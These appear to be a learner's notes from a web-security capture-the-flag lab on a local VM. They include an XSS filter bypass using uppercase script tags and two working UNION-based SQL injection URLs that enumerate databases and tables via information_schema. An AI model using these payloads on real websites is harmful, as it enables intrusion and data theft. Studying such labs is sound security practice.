 # VirtualBox settings
1. System->Processor-> enable PAE
2. Host-only Adapter, name vboxnet0

# Notes to self
## Footer
* The copyright link points to ?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c (the albatross page), which feels odd (64 characters, too)

## Feedback
* The **name** field allows HTML injection~~, but not XSS. Simply adding a `<script>` block does not return a flag (the tags are filtered out).~~
* Actually XSS **is** possible, it's just `<script>` (lowercase) tags that are filtered. `<SCRIPT>` works fine.

## Database
* There are 5 databases (+ information_schema):
  * `Member_Brute_Force, Member_Sql_Injection, Member_guestbook, Member_images, Member_survey`
  * http://192.168.99.100/?page=member&id=1+AND+1%3D2+UNION+SELECT+catalog_name%2C+schema_name+FROM+information_schema.schemata&Submit=Submit#
* The databases contain the following tables:
  * Member_Brute_Force: db_default
  * Member_Sql_Injection: users
  * Member_guestbook: guestbook
  * Member_images: list_images
  * Member_survey: vote_dbs
  * http://192.168.99.100/?page=member&id=1+AND+1%3D2+UNION+SELECT+table_schema%2C+table_name+FROM+information_schema.tables&Submit=Submit#
* The database uses InnoDB

## Image upload
* Hidden input field MAX_FILE_SIZE sounds like a constant that should be on the server.
* Files must be jpg/jpeg (probably)
* Images are not added to database even if successfully uploaded (at least not `list_images`)

# Flag count
6/14
